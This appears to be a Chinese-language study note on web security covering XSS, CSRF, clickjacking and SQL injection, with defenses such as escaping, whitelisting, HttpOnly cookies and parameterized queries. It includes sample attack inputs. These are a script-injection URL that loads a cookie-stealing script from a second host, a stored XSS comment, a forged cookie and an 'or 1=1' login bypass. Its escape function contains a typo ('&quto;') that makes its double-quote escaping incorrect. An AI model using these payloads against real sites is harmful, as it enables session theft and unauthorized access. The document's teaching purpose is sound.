 我们必须理解这么几个方面：sql注入、xss、csrf、cookie安全、密码安全等等。
sql注入，要理解sql注入的场景，它的原理是什么，当前的数据库的解决方案是什么？（不知道密码，利用一些特定的sql语句，返回用户信息）
xss攻击，常见的攻击场景，什么类型的网站容易被xss攻击，整个流程的原理是什么？
csrf攻击，其实就是一个钓鱼网站，要理解为什么会收到攻击，应该采取什么策略进行防御。
cookie安全，要理解为什么用token，优势等。
密码安全，主要是用户登陆，用户数据提交，加密，存入数据库的一整个流程。
其次，其实还有http和https的问题等等。

# XSS

[不错的](https://my.oschina.net/u/4446873/blog/3229798/print)

概念: Cross Site Scripting 跨站脚本攻击

XSS (Cross-Site Scripting)，跨站脚本攻击，因为缩写和 CSS 重叠，所以只能叫 XSS。跨站脚本攻击是指通过
存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的非本站点 HTML 标签或 JavaScript 进行的一种攻击。

跨站脚本攻击有可能造成以下影响:

- 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片。

1. XSS 攻击分类

```
// 普通 http://localhost:3000/?from=china // alert尝试 http://localhost:3000/?from=<script>alert(3)</script> // 获取Cookie http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script> // 短域名伪造 https://dwz.cn/ // 伪造cookie入侵 chrome document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxO DYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```

2. 存储型 - 存储到 DB 后读取时注入

```
// 评论 <script>alert(1)</script> // 跨站脚本注入 我来了<script src="http://localhost:4000/hack.js"></script>
```

XSS 攻击的危害 - Scripting 能干啥就能干啥
获取页面数据
获取 Cookies
劫持前端逻辑
发送请求
偷取网站的任意数据
偷取用户的资料
偷取用户的秘密和登录态
欺骗用户

3. 防范手段

```
 ejs转义小知识
<% code %>用于执行其中javascript代码； <%= code %>会对code进行html转义； <%- code %>将不会进行转义
```

- head

```
ctx.set('X-XSS-Protection', 0) // 禁止XSS过滤
http://localhost:3000/?from=<script>alert(3)</script> 可以拦截 但伪装一下就不行了
```

0 禁止 XSS 过滤。
1 启用 XSS 过滤（通常浏览器是默认的）。 如果检测到跨站脚本攻击，浏览器将清除页面（删除不安全的部
分）。
1;mode=block 启用 XSS 过滤。 如果检测到攻击，浏览器将不会清除页面，而是阻止页面加载。
1; report= (Chromium only)
启用 XSS 过滤。 如果检测到跨站脚本攻击，浏览器将清除页面并使用 CSP report-uri 指令的功能发送违规
报告。

- CSP

* 转义字符 尖括号啊单双引号做一些转义 就不会执行了
* 黑名单
  用户的输入永远不可信任的，最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠进行转义

```
function escape(str) { str = str.replace(/&/g, '&amp;') str = str.replace(/</g, '&lt;') str = str.replace(/>/g, '&gt;') str = str.replace(/"/g, '&quto;') str = str.replace(/'/g, '&#39;') str = str.replace(/`/g, '&#96;') str = str.replace(/\//g, '&#x2F;') return str }
```

富文本来说，显然不能通过上面的办法来转义所有字符，因为这样会把需要的格式也过滤掉。对于这种情
况，通常采用白名单过滤的办法，当然也可以通过黑名单过滤，但是考虑到需要过滤的标签和标签属性实在
太多，更加推荐使用白名单的方式。

- 白名单

```
const xss = require('xss');
let html = xss('<h1 id="title">XSS Demo</h1><script>alert("xss");</script>');
// -> <h1>XSS Demo</h1>&lt;script&gt;alert("xss");&lt;/script&gt; console.log(html)

```

- HttpOnly Cookie
这是预防 XSS 攻击窃取用户 cookie 最有效的防御手段。Web 应 用程序在设置 cookie 时，将其属性设为
HttpOnly，就可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取，保护用户 cookie 信息。
<!-- response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly") -->

# CSRF

CSRF(Cross Site Request Forgery)，即跨站请求伪造，是一种常见的 Web 攻击，它利用用户已登录的身份，
在用户毫不知情的情况下，以用户的名义完成非法操作。

- 用户已经登录了站点 A，并在本地记录了 cookie
- 在用户没有登出站点 A 的情况下（也就是 cookie 生效的情况下），访问了恶意攻击者提供的引诱危险站点 B
  (B 站点要求访问站点 A)。
- 站点 A 没有做任何 CSRF 防御

CSRF 攻击危害

- 利用用户登录态
- 用户不知情  利用登录状态
- 完成业务请求
- 盗取用户资金（转账，消费）
- 冒充用户发帖背锅
- 损害网站声誉


防御 
* 禁止第三方网站带Cookie - 有兼容性问题
* Referer Check - Https不发送referer  来源referer  
* 验证码

# 点击劫持 - clickjacking

点击劫持是一种视觉欺骗的攻击手段。攻击者将需要攻击的网站通过 iframe 嵌套的方式嵌入自己的网页中，
并将 iframe 设置为透明，在页面中透出一个按钮诱导用户点击。

防御？
* X-FRAME-OPTIONS
用 iframe 嵌套的点击劫持攻击。
该响应头有三个值可选，分别是
  DENY，表示页面不允许通过 iframe 的方式展示
  SAMEORIGIN，表示页面可以在相同域名下通过 iframe 的方式展示
  ALLOW-FROM，表示页面可以在指定来源的 iframe 中展示
ctx.set('X-FRAME-OPTIONS', 'DENY')


# SQL注入
```
// 填入特殊密码 1'or'1'='1 // 拼接后的SQL SELECT * FROM test.user WHERE username = 'laowang' AND password = '1'or'1'='1'
```
防御？
所有的查询语句建议使用数据库提供的参数化查询接口**，参数化的语句使用参数而不是将用户输入变量嵌
入到 SQL 语句中，即不要直接拼接 SQL 语句。例如 Node.js 中的 mysqljs 库的 query 方法中的 ? 占位参
数。

```
// 错误写法 const sql = ` SELECT * FROM test.user WHERE username = '${ctx.request.body.username}' AND password = '${ctx.request.body.password}' `console.log('sql', sql) res = await query(sql) // 正确的写法 const sql = ` SELECT * FROM test.user WHERE username = ? AND password = ? `console.log('sql', sql, ) res = await query(sql,[ctx.request.body.username, ctx.request.body.password])
```

严格限制Web应用的数据库的操作权限**，给此用户提供仅仅能够满足其工作的最低权限，从而最大限度的
减少注入攻击对数据库的危害
后端代码检查输入的数据是否符合预期**，严格限制变量的类型，例如使用正则表达式进行一些匹配处理。
对进入数据库的特殊字符（'，"，\，<，>，&，*，; 等）进行转义处理，或编码转换**。基本上所有的后端
语言都有对字符串进行转义处理的方法，比如 lodash 的 lodash._escapehtmlchar 库。


# 请求劫持